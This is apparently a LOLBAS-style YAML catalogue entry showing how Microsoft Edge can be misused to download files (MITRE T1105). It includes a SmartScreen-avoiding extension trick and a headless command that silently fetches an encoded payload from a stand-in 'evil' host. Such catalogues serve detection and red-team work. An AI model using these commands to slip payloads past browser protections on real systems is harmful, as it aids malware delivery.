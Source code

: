 ```yaml
---
Name: Msedge.exe
Description: Microsoft Edge browser
Author: mr.d0x
Created: 2022-01-20
Commands:
  - Command: msedge.exe https://example.com/file.exe.txt
    Description: Edge will launch and download the file. A harmless file extension (e.g. .txt, .zip) should be appended to avoid SmartScreen.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: msedge.exe --headless --enable-logging --disable-gpu --dump-dom "http://example.com/evil.b64.html" > out.b64
    Description: Edge will silently download the file. File extension should be .html and binaries should be encoded.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: c:\Program Files\Microsoft\Edge\Application\msedge.exe
  - Path: c:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
Resources:
  - Link: https://twitter.com/mrd0x/status/1478116126005641220
  - Link: https://twitter.com/mrd0x/status/1478234484881436672
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
---
```

